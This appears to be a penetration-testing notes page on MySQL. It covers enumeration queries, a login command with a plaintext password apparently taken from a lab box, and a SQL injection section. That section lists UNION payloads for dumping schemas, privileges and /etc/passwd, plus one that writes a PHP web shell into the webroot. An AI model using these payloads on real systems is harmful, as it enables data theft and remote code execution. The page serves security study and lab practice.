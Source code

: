 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# MySQL (3306)

## Usage

{% tabs %}
{% tab title="Version" %}
```sql
SELECT version();
```
{% endtab %}

{% tab title="Current User" %}
```sql
SELECT current_user();
SELECT user();
SELECT system_user();
```
{% endtab %}

{% tab title="Databases" %}
```sql
SHOW databases;
```
{% endtab %}

{% tab title="Tables" %}
```sql
SHOW tables FROM <database>;
```
{% endtab %}
{% endtabs %}

MySQL stores information about itself in the [`information_schema`](https://dev.mysql.com/doc/refman/8.4/en/information-schema.html) database, which is a read-only repository of the metadata of the MySQL database server, providing insights into the structure and organization of the database environment. It contains some useful tables, such as:

1. [`schemata`](https://dev.mysql.com/doc/refman/8.4/en/information-schema-schemata-table.html) **->** Information about all databases.
2. [`tables`](https://dev.mysql.com/doc/refman/8.4/en/information-schema-tables-table.html) -> Information about all tables.
3. [`columns`](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html) -> Details about columns in the tables.

We can use the following `SELECT`-based queries to enumerate the DBMS via the `information_schema` database.

{% tabs %}
{% tab title="Databases" %}
```sql
SELECT table_schema FROM information_schema.tables GROUP BY table_schema;
```
{% endtab %}

{% tab title="Tables" %}
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='<table>';
```
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```sql
SELECT column_name, data_type FROM information_schema.columns WHERE table_schema = '<database>' AND table_name = '<table>';
```
{% endcode %}
{% endtab %}
{% endtabs %}

We can connect through Linux via `mysql`.

{% tabs %}
{% tab title="Connect" %}
```bash
mysql -h localhost -u lewis -pP4ntherg0t1n5r3c0n##
```
{% endtab %}
{% endtabs %}

For an example of MySQL usage see [Devvortex](../../boxes/easy/devvortex.md).

## SQLi

### Enumeration

{% hint style="info" %}
The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.
{% endhint %}

{% hint style="danger" %}
On the below commands, the comment at the end includes a space: `--` ! The `#` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
```bash
a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```
{% endtab %}

{% tab title="Current DB" %}
```bash
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```bash
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}

### Read/Write

{% hint style="info" %}
The `FILE` privilege is needed to both `read` and `write` files.
{% endhint %}

MySQL has a `secure_file_priv` system variable that restricts which directories can be used to `read` or `write` files.

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |

Thus, we first need to enumerate `secure_file_priv`'s value.

```sql
SELECT @@GLOBAL.secure_file_priv;
```

We can use the `INTO OUTFILE '<file>'` clause to write a file (the file location must be writable to the OS user the database software is running as). For example, if the `secure_file_priv` is set to the `/var/lib/mysql-files` directory, we can only `write` a file within that folder.

```sql
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/test.txt'
```

To read the above file, we can use the `LOAD_FILE('<file>')` clause.

```sql
SELECT LOAD_FILE('/var/lib/mysqlfiles/test.txt')
```

Some `UNION`-based payload can be found below.

{% tabs %}
{% tab title="User" %}
```bash
a' UNION SELECT 1, user(), 3, 4-- 
a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```
{% endtab %}

{% tab title="Privileges" %}
{% code overflow="wrap" %}
```bash
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```bash
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```bash
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

To **WRITE** files the `FILE` privilege is required as well as the `secure_file_priv` variable must be disabled. In addition, the user must have `write` access to the location we want to write to.

{% tabs %}
{% tab title="SECURE_FILE_PRIV" %}
{% code overflow="wrap" %}
```bash
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```
{% endcode %}
{% endtab %}

{% tab title="WRITE" %}
{% code overflow="wrap" %}
```bash
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```bash
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}
{% endtabs %}

To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="144">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

For an example of a manual SQLi attack on a MySQL database, see [here](../../tl-dr/web/injections/sqli/in-band.md#union-attack).

## Resources

{% tabs %}
{% tab title="Man" %}
{% embed url="https://linux.die.net/man/1/mysql" %}
{% endtab %}

{% tab title="CheatSheet" %}
{% embed url="https://devhints.io/mysql" %}
{% endtab %}
{% endtabs %}
